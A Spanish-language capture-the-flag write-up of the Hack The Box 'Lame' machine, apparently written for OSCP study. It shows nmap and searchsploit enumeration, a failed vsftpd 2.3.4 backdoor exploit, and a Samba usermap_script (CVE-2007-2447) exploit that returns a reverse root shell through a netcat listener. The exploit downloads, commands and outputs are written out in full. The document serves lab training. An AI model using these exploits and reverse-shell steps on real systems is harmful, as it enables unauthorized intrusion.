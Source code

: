 ```yaml
---
layout: post
title:  "OSCP Path ~ Lame de Hack The Box (Necesario VIP)"
categories: "HTB OSCP-PATH"
description: Writeup de la maquina de HackTheBox llamada LAME siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, Samba, Maquinas Retiradas, Writeup, Hacking
---
```


# Lame ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.3       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4										-comprobando version
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.193
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h01m27s, deviation: 2h49m45s, median: 1m24s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-05-03T17:06:20-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```
Comenzamos buscando en `SAEARCHSPLOIT` por las versiones de los servicios encontrados:
```bash
# searchsploit vsftpd 2.3.4           
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                        | unix/remote/17491.rb
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
Encontramos que para la version 2.3.4 vsftpd hay un RCE buscamos a nivel de github porque solo aparecia uno RCE para su uso en Metasploit (NO PODEMOS USARLO)
Asique buscamos por algun exploit igual pero en `python` para comprobar si funciona. Nos descargamos el siguiente exploit
```bash
# wget https://raw.githubusercontent.com/ahervias77/vsftpd-2.3.4-exploit/master/vsftpd_234_exploit.py 
```
```bash
# python3 vsftpd_234_exploit.py -h
Usage: ./vsftpd_234_exploit.py <IP address> <port> <command>
Example: ./vsftpd_234_exploit.py 192.168.1.10 21 whoami
                                                                                                                                                                                
┌──(root💀kali)-[/home/…/HTB/OSCP/Lame/exploits]
└─# python3 vsftpd_234_exploit.py 10.10.10.3 21 whoami
[*] Attempting to trigger backdoor...
[+] Triggered backdoor
[*] Attempting to connect to backdoor...
```
---------------- NO NOS FUNCIONA ---------------
 
 Prodecemos a seguir enumerando con `SEARCHSPLOIT` el servicio `SAMBA`:
 ```bash
 # searchsploit samba 3.0.2
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                              | unix/remote/16320.rb
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 ```
 Encontramos otro exploit posiblemente funcional pero para su uso con Metasploit, y nosotros no Usamos Metasploit, esta Prohibido para el OSCP.
 Vamos a buscar a nivel de github por algun exploit para la version de `samba 3.0.2`. Nos descargamos el siguiente exploit
 ```bash
 # wget https://raw.githubusercontent.com/amriunix/CVE-2007-2447/master/usermap_script.py  
 ```
 Procedemos a pasarle los datos que nos pide `RHOST` `RPORT` `LHOST` `LPORT` y nos ponemos a la escucha por el `LPORT` indicado con una session de `netcat`.
 ```bash
 # python3 usermap_script.py 10.10.10.3 139 10.10.14.5 443
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
 ```
 Ejecutamos el Exploit `usermap_script.py` y recibimos una conexion como el usuario `root` directamente.
 ```bash
 # nc -vlnp 443
listening on [any] 443 ...
connect to [10.10.16.132] from (UNKNOWN) [10.10.10.3] 60661
script /dev/null -c bash
root@lame:/# 
 ```
 Sacamos las Flags:
 Para el `user.txt`:
 ```bash
 root@lame:/home/makis# cat user.txt
353f01d477d0f5b98e2b545d7xxxxxxxxx
 ```
 Para el `root.txt`:
 ```bash
root@lame:/root# cat root.txt
70da9f983f2a6f92d0936a3aaxxxxxxxxx
 ```
